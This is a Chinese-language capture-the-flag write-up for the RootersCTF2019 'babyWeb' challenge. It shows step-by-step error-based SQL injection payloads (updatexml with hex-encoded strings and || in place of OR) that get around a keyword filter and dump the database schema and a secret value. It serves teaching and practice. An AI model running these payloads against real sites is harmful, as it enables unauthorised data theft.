


# RootersCTF2019-babyWeb

首先页面告诉我们要找一串18个字符的数字然后输入进去，且告诉我们过滤了一些关键词，

```
banned words and characters UNION SLEEP ' " OR - BENCHMARK
```



union被过滤了。但是他把我们的sql语句回显出来了，推测是存在报错注入。尝试一下

这里or被过滤了，可以用and或者||

```
?search=1||updatexml(1,concat(0x7e,database(),0x7e),1)
或者
?search=1 and updatexml(1,concat(0x7e,database(),0x7e),1)
```

发现果然是报错注入。爆数据库名有回显



然后就是慢慢构造爆出数据。

但是是这里过滤了单双引号，我们用where条件查询是需要用到单双引号的，但是这里可以使用十六进制编码来进行代替

```
例如：table_name='users' 和 table_name=0x7573657273 功能一样
```

构造payload：

```
爆库：sql_injection
1 and updatexml(1,concat(0x7e,database(),0x7e),1)#
或者
用group_concat配合substr
1||updatexml(1,concat(0x7e,substr((select group_concat(schema_name) from information_schema.schemata),32,64),0x7e),1)#
或者
用limit控制回显
1||updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 2,1),0x7e),1)#

爆表：users
1||updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)#

爆字段（列名）：USER CURRENT_CONNECTIONS TOTAL_CONNECTIONS user uniqueid
1||updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name=0x7573657273 limit 0,1),0x7e),1)#


由首页中回显的SELECT * FROM users WHERE uniqueid=1，提示我们要查uniqueid字段的数据
爆数据
1||updatexml(1,concat(0x7e,(select uniqueid from sql_injection.users limit 0,1)),1)#
```

爆出来一串数字

```
XPATH syntax error: '~837461526918364526'
```

将数字输入到主页的输入框就能得到flag了。


